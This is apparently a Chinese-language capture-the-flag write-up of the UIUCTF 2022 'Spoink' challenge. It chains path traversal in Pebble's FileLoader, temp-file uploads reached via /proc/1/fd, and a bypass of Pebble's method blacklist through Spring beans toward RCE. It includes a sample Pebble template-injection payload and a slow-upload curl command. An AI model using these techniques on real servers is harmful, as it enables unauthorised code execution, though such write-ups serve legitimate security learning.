# 2022UIUCTF-Spoink(pebble最新模板注入)

## 写在前面

之前周末忙着强网杯，对这道题只做了一半就搁置下来了，最后卡在绕过最新pebble模板引擎RCE那里，今天抽空来继续进行剩下的分析，正好题目里有几个在现实场景当中能用的trick顺便也分享了

## 题目环境分析

也是挺不错题目直接给了docker环境便于本地搭建，同时设置了权限需要执行./getflag才能获取获得flag

```java
FROM openjdk:18-slim-bullseye

RUN mkdir /usr/src/app
WORKDIR /usr/src/app

# create user
RUN groupadd chalusr
RUN useradd -ms /bin/bash -g chalusr chalusr

COPY spoink/target/spoink-0.0.1-SNAPSHOT-spring-boot.jar ./
COPY spoink/public ./public
COPY spoink/templates ./templates
COPY getflag ./

RUN chmod 111 ./getflag

USER chalusr
CMD ["java", "-jar", "/usr/src/app/spoink-0.0.1-SNAPSHOT-spring-boot.jar"]
```


路由只有一个，根据参数x返回指定模板，刚看到这里的时候其实有点懵，毕竟很少见到只给一个路由的代码

```java
@Controller
public class HomeController {
    public HomeController() {
    }

    @RequestMapping({"/"})
    public String getTemplate(@RequestParam("x") Optional<String> template, Model model) {
        return (String)template.orElse("home.pebble");
    }
}
```

不过我很快关注到了一个application.properties当中一个很有趣的点，也就是这里没有后缀，因此想到了一个目录穿越的可能

```properties
pebble.prefix = templates
pebble.suffix =
```


## 正文

### 目录穿越

为什么我说上面那个点很有趣，其实就是第一个想分享的trick，路径穿越，简单来说pebble当中有两个loader一个是classpathloader，另一个是fileloader，优先会在classpath下尝试加载模板文件，如果寻找不到则使用fileloader尝试加载模板文件，其他调用栈不是很重要这里就不多提了

既然想实现任意文件读那第一个就别想了，我们来看第二个，它在com.mitchellbosecke.pebble.loader.FileLoader#getFile最终加载模板文件内容

可以很明显看到这里没有做路径限制，导致我们可以进行跨目录读任意文件



结果如下



### RCE攻击路径初步构建

因此我们便能成功想到一条能RCE的攻击路径

1. 上传带恶意内容的模板文件到目标服务器
2. 利用LFI读取这个模板并RCE


### 如何上传文件？上传了如何获取？

但是这里就遇到第一个难点，如何上传文件？这里路由当中并没有上传文件的功能点

怎么办？其实很简单，我们也知道，我们的Spring MVC框架是围绕DispatcherServlet来设计的，这个Servlet会把请求分发给各个处理器，并支持可配置的处理器映射、视图渲染、本地化、时区与主题渲染和`文件上传`等功能，好了我都圈出来重点了

在这过程当中它会检查这是否是一个表单请求



正好我们也知道spring默认使用内置的tomcat引擎，

在处理表单的内容当中这会调用`org.apache.catalina.connector.Request#getParts`去处理解析内容，而这在之前的文章Tomcat文件上传流量层面系列文章当中也提到过，遗忘的可以去[我的博客](https://y4tacker.github.io/)考古

废话不多说，类似php的处理一样，它会先将上传的文件保存到一个临时目录再最终复制到目标文件夹，临时文件夹的获取在哪里，在`org.apache.catalina.connector.Request#parseParts`



发现是通过`javax.servlet.MultipartConfigElement#getLocation`函数获取到保存到临时路径

不难看到这里是空对吧，也就是默认值(默认的话后面会存到/tmp目录下)，顺便多提一下，哪里可以设置这个location呢



在spring的启动过程当中，会根据`spring.servlet.multipart.location`的值设置这个内容，具体可以自行去参考org.springframework.boot.autoconfigure.web.servlet.MultipartProperties

```java
@ConfigurationProperties(
    prefix = "spring.servlet.multipart",
    ignoreUnknownFields = false
)
public class MultipartProperties {
    private boolean enabled = true;
    private String location;
    private DataSize maxFileSize = DataSize.ofMegabytes(1L);
    private DataSize maxRequestSize = DataSize.ofMegabytes(10L);
    private DataSize fileSizeThreshold = DataSize.ofBytes(0L);
    private boolean resolveLazily = false;

    public MultipartProperties() {
    }

    public boolean getEnabled() {
        return this.enabled;
    }

    public void setEnabled(boolean enabled) {
        this.enabled = enabled;
    }

    public String getLocation() {
        return this.location;
    }

    public void setLocation(String location) {
        this.location = location;
    }

    public DataSize getMaxFileSize() {
        return this.maxFileSize;
    }

    public void setMaxFileSize(DataSize maxFileSize) {
        this.maxFileSize = maxFileSize;
    }

    public DataSize getMaxRequestSize() {
        return this.maxRequestSize;
    }

    public void setMaxRequestSize(DataSize maxRequestSize) {
        this.maxRequestSize = maxRequestSize;
    }

    public DataSize getFileSizeThreshold() {
        return this.fileSizeThreshold;
    }

    public void setFileSizeThreshold(DataSize fileSizeThreshold) {
        this.fileSizeThreshold = fileSizeThreshold;
    }

    public boolean isResolveLazily() {
        return this.resolveLazily;
    }

    public void setResolveLazily(boolean resolveLazily) {
        this.resolveLazily = resolveLazily;
    }

    public MultipartConfigElement createMultipartConfig() {
        MultipartConfigFactory factory = new MultipartConfigFactory();
        PropertyMapper map = PropertyMapper.get().alwaysApplyingWhenNonNull();
        map.from(this.fileSizeThreshold).to(factory::setFileSizeThreshold);
        map.from(this.location).whenHasText().to(factory::setLocation);
        map.from(this.maxRequestSize).to(factory::setMaxRequestSize);
        map.from(this.maxFileSize).to(factory::setMaxFileSize);
        return factory.createMultipartConfig();
    }
}
```


ok回到正文，如果这为空，就会保存到默认路径，也就是`javax.servlet.context.tempdir`，实际上就是在/tmp目录下

```java
try {
  String locationStr = mce.getLocation();
  File location;
  if (locationStr != null && locationStr.length() != 0) {
    location = new File(locationStr);
    if (!location.isAbsolute()) {
      location = (new File((File)context.getServletContext().getAttribute("javax.servlet.context.tempdir"), locationStr)).getAbsoluteFile();
    }
  } else {
    location = (File)context.getServletContext().getAttribute("javax.servlet.context.tempdir");
  }
```

这里调试可以看到将会保存在这个看着就不能爆破的文件夹下，



且不说前面这个又臭又长的文件夹，在最终生成临时文件时`org.apache.tomcat.util.http.fileupload.disk.DiskFileItem#getTempFile`

还有靠UID随机生成的文件名，真的是不怕麻烦

```java
protected File getTempFile() {
  if (this.tempFile == null) {
    File tempDir = this.repository;
    if (tempDir == null) {
      tempDir = new File(System.getProperty("java.io.tmpdir"));
    }

    String tempFileName = String.format("upload_%s_%s.tmp", UID, getUniqueId());
    this.tempFile = new File(tempDir, tempFileName);
  }

  return this.tempFile;
}
```

不过当然我们肯定是有办法的啦，别忘了有个东西叫文件描述符，这玩意儿是啥我想大家都知道，因此我们可以通过上传大文件多线程狂轰乱炸，burp都给我冲起来！不得不说狂轰乱炸法yyds！按理说上传完了以后这玩意儿就应该关闭，结果我发现我停止后，去和yzddmr6吹牛一分钟都还在。

当然其实还可以通过curl命令的--limit-rate参数来限制HTTP请求和回应的带宽，但我觉得burp狂轰乱炸更适合我.

```cmd
curl --limit-rate 1k -X POST http://vps:1234 -F "file=@/tmp/1.txt"
```

顺便多提一句你可能会好奇为什么一定是`/proc/1/fd`，因为这是在docker里面，之前看docker逃逸的时候看到的，比如这篇文章虽然没提到原因：[Determine if a Process Runs Inside a Container](https://www.baeldung.com/linux/is-process-running-inside-container)



之后就是如何实现模板注入实现RCE了

### 利用现有环境Bypass最新版Pebble模板引擎限制

网上随便抄了一个看起来最新的

```


{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

结果命令行大大的问号？然后想到了这是最新版修复了之前的问题



根据报错内容的显示，接下来我们看看具体做的哪些限制，可以看到够恶心的不能是下面这么多类的实例？？？并且能调用FORBIDDEN_METHODS 当中的方法，特别是判断是否为Class实例将我们反射的路给断掉了(在这个模板语法当中只能通过xx.class.forName去获取其他对象)
，剩下代码也很简单就不带着读了

```java
public class BlacklistMethodAccessValidator implements MethodAccessValidator {
    private static final String[] FORBIDDEN_METHODS = new String[]{"getClass", "wait", "notify", "notifyAll"};

    public BlacklistMethodAccessValidator() {
    }

    public boolean isMethodAccessAllowed(Object object, Method method) {
        boolean methodForbidden = object instanceof Class || object instanceof Runtime || object instanceof Thread || object instanceof ThreadGroup || object instanceof System || object instanceof AccessibleObject || this.isUnsafeMethod(method);
        return !methodForbidden;
    }

    private boolean isUnsafeMethod(Method member) {
        return this.isAnyOfMethods(member, FORBIDDEN_METHODS);
    }

    private boolean isAnyOfMethods(Method member, String... methods) {
        String[] var3 = methods;
        int var4 = methods.length;

        for(int var5 = 0; var5 < var4; ++var5) {
            String method = var3[var5];
            if (this.isMethodWithName(member, method)) {
                return true;
            }
        }

        return false;
    }

    private boolean isMethodWithName(Method member, String method) {
        return member.getName().equals(method);
    }
}
```

### 如何绕过限制加载任意Class对象

我们也知道Spring 应用程序的许多实例都隐式注册为bean，因此我们能不能从bean当中找到一个对象而这个对象当中保存了classloader对象，通过获取到它我们就能通过执行loadClass加载到任意对象

既然如此，第一反应其实就是想到去上下文中看看有没有这些bean对象，而pebble在初始化上下文时是在`com.mitchellbosecke.pebble.template.PebbleTemplateImpl#evaluate(java.io.Writer, java.util.Map<java.lang.String,java.lang.Object>, java.util.Locale)`当中

可以看到这个map当中存了beans对象，而这个beans对象当中存的是那些bean对象，一方面我们可以直接遍历输出到控制台



另一方面我们也可以直接在代码当中看一眼，反正不费事往上看看，可以看到是在`com.mitchellbosecke.pebble.spring.servlet.PebbleView#addVariablesToModel`

当中，获取了spring的应用程序上下文并添加到beans属性当中

```java
private void addVariablesToModel(Map<String, Object> model, HttpServletRequest request, HttpServletResponse response) {
  model.put("beans", new Beans(this.getApplicationContext()));
  model.put("request", request);
  model.put("response", response);
  model.put("session", request.getSession(false));
}
```

因此我们可以通过表达式获取到这个上下文当中注册的bean，去尝试寻找一些其他的属性来绕过限制，

因此为了方便遍历bean当中的类，我们在原路由前加上获取上下文的部分代码

```java
@RequestMapping({"/"})
public String getTemplate(@RequestParam("x") Optional<String> template, Model model) {
  ServletContext sss = ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest().getSession().getServletContext();
  org.springframework.web.context.WebApplicationContext context  = org.springframework.web.context.support.WebApplicationContextUtils.getWebApplicationContext(sss);
  String[] beanDefinitionNames = context.getBeanDefinitionNames();
  for (String o:beanDefinitionNames) {
    System.out.println(o.toString());
  }
  return (String)template.orElse("home.pebble");
}      
```

重新启动项目并访问可以得到控制台输出

```java
//输出
org.springframework.context.annotation.internalConfigurationAnnotationProcessor
org.springframework.context.annotation.internalAutowiredAnnotationProcessor
org.springframework.context.annotation.internalCommonAnnotationProcessor
org.springframework.context.event.internalEventListenerProcessor
org.springframework.context.event.internalEventListenerFactory
spoinkApplication
org.springframework.boot.autoconfigure.internalCachingMetadataReaderFactory
homeController
pebbleLoader
org.springframework.boot.autoconfigure.AutoConfigurationPackages
org.springframework.boot.autoconfigure.context.PropertyPlaceholderAutoConfiguration
propertySourcesPlaceholderConfigurer
org.springframework.boot.autoconfigure.websocket.servlet.WebSocketServletAutoConfiguration$TomcatWebSocketConfiguration
websocketServletWebServerCustomizer
org.springframework.boot.autoconfigure.websocket.servlet.WebSocketServletAutoConfiguration
org.springframework.boot.autoconfigure.web.servlet.ServletWebServerFactoryConfiguration$EmbeddedTomcat
tomcatServletWebServerFactory
org.springframework.boot.autoconfigure.web.servlet.ServletWebServerFactoryAutoConfiguration
servletWebServerFactoryCustomizer
tomcatServletWebServerFactoryCustomizer
org.springframework.boot.context.properties.ConfigurationPropertiesBindingPostProcessor
org.springframework.boot.context.internalConfigurationPropertiesBinderFactory
org.springframework.boot.context.internalConfigurationPropertiesBinder
org.springframework.boot.context.properties.BoundConfigurationProperties
org.springframework.boot.context.properties.EnableConfigurationPropertiesRegistrar.methodValidationExcludeFilter
server-org.springframework.boot.autoconfigure.web.ServerProperties
webServerFactoryCustomizerBeanPostProcessor
errorPageRegistrarBeanPostProcessor
org.springframework.boot.autoconfigure.web.servlet.DispatcherServletAutoConfiguration$DispatcherServletConfiguration
dispatcherServlet
spring.mvc-org.springframework.boot.autoconfigure.web.servlet.WebMvcProperties
org.springframework.boot.autoconfigure.web.servlet.DispatcherServletAutoConfiguration$DispatcherServletRegistrationConfiguration
dispatcherServletRegistration
org.springframework.boot.autoconfigure.web.servlet.DispatcherServletAutoConfiguration
org.springframework.boot.autoconfigure.task.TaskExecutionAutoConfiguration
taskExecutorBuilder
applicationTaskExecutor
spring.task.execution-org.springframework.boot.autoconfigure.task.TaskExecutionProperties
org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration$WhitelabelErrorViewConfiguration
error
beanNameViewResolver
org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration$DefaultErrorViewResolverConfiguration
conventionErrorViewResolver
spring.web-org.springframework.boot.autoconfigure.web.WebProperties
org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration
errorAttributes
basicErrorController
errorPageCustomizer
preserveErrorControllerTargetClassPostProcessor
org.springframework.boot.autoconfigure.web.servlet.WebMvcAutoConfiguration$EnableWebMvcConfiguration
requestMappingHandlerAdapter
requestMappingHandlerMapping
welcomePageHandlerMapping
localeResolver
themeResolver
flashMapManager
mvcConversionService
mvcValidator
mvcContentNegotiationManager
mvcPatternParser
mvcUrlPathHelper
mvcPathMatcher
viewControllerHandlerMapping
beanNameHandlerMapping
routerFunctionMapping
resourceHandlerMapping
mvcResourceUrlProvider
defaultServletHandlerMapping
handlerFunctionAdapter
mvcUriComponentsContributor
httpRequestHandlerAdapter
simpleControllerHandlerAdapter
handlerExceptionResolver
mvcViewResolver
mvcHandlerMappingIntrospector
viewNameTranslator
org.springframework.boot.autoconfigure.web.servlet.WebMvcAutoConfiguration$WebMvcAutoConfigurationAdapter
defaultViewResolver
viewResolver
requestContextFilter
org.springframework.boot.autoconfigure.web.servlet.WebMvcAutoConfiguration
formContentFilter
com.mitchellbosecke.pebble.boot.autoconfigure.PebbleServletWebConfiguration
pebbleViewResolver
com.mitchellbosecke.pebble.boot.autoconfigure.PebbleAutoConfiguration
springExtension
pebbleEngine
pebble-com.mitchellbosecke.pebble.boot.autoconfigure.PebbleProperties
org.springframework.boot.autoconfigure.jmx.JmxAutoConfiguration
mbeanExporter
objectNamingStrategy
mbeanServer
org.springframework.boot.autoconfigure.admin.SpringApplicationAdminJmxAutoConfiguration
springApplicationAdminRegistrar
org.springframework.boot.autoconfigure.aop.AopAutoConfiguration$ClassProxyingConfiguration
forceAutoProxyCreatorToUseClassProxying
org.springframework.boot.autoconfigure.aop.AopAutoConfiguration
org.springframework.boot.autoconfigure.availability.ApplicationAvailabilityAutoConfiguration
applicationAvailability
org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$Jackson2ObjectMapperBuilderCustomizerConfiguration
standardJacksonObjectMapperBuilderCustomizer
spring.jackson-org.springframework.boot.autoconfigure.jackson.JacksonProperties
org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$JacksonObjectMapperBuilderConfiguration
jacksonObjectMapperBuilder
org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$ParameterNamesModuleConfiguration
parameterNamesModule
org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration$JacksonObjectMapperConfiguration
jacksonObjectMapper
org.springframework.boot.autoconfigure.jackson.JacksonAutoConfiguration
jsonComponentModule
org.springframework.boot.autoconfigure.context.ConfigurationPropertiesAutoConfiguration
org.springframework.boot.autoconfigure.context.LifecycleAutoConfiguration
lifecycleProcessor
spring.lifecycle-org.springframework.boot.autoconfigure.context.LifecycleProperties
org.springframework.boot.autoconfigure.http.HttpMessageConvertersAutoConfiguration$StringHttpMessageConverterConfiguration
stringHttpMessageConverter
org.springframework.boot.autoconfigure.http.JacksonHttpMessageConvertersConfiguration$MappingJackson2HttpMessageConverterConfiguration
mappingJackson2HttpMessageConverter
org.springframework.boot.autoconfigure.http.JacksonHttpMessageConvertersConfiguration
org.springframework.boot.autoconfigure.http.HttpMessageConvertersAutoConfiguration
messageConverters
org.springframework.boot.autoconfigure.info.ProjectInfoAutoConfiguration
spring.info-org.springframework.boot.autoconfigure.info.ProjectInfoProperties
org.springframework.boot.autoconfigure.sql.init.SqlInitializationAutoConfiguration
spring.sql.init-org.springframework.boot.autoconfigure.sql.init.SqlInitializationProperties
org.springframework.boot.sql.init.dependency.DatabaseInitializationDependencyConfigurer$DependsOnDatabaseInitializationPostProcessor
org.springframework.boot.autoconfigure.task.TaskSchedulingAutoConfiguration
scheduledBeanLazyInitializationExcludeFilter
taskSchedulerBuilder
spring.task.scheduling-org.springframework.boot.autoconfigure.task.TaskSchedulingProperties
org.springframework.boot.autoconfigure.web.client.RestTemplateAutoConfiguration
restTemplateBuilderConfigurer
restTemplateBuilder
org.springframework.boot.autoconfigure.web.embedded.EmbeddedWebServerFactoryCustomizerAutoConfiguration$TomcatWebServerFactoryCustomizerConfiguration
tomcatWebServerFactoryCustomizer
org.springframework.boot.autoconfigure.web.embedded.EmbeddedWebServerFactoryCustomizerAutoConfiguration
org.springframework.boot.autoconfigure.web.servlet.HttpEncodingAutoConfiguration
characterEncodingFilter
localeCharsetMappingsCustomizer
org.springframework.boot.autoconfigure.web.servlet.MultipartAutoConfiguration
multipartConfigElement
multipartResolver
spring.servlet.multipart-org.springframework.boot.autoconfigure.web.servlet.MultipartProperties
org.springframework.aop.config.internalAutoProxyCreator
```

之后也算运气好，测了前几个就发现通过取得internalCachingMetadataReaderFactory对象可以拿到classLoader

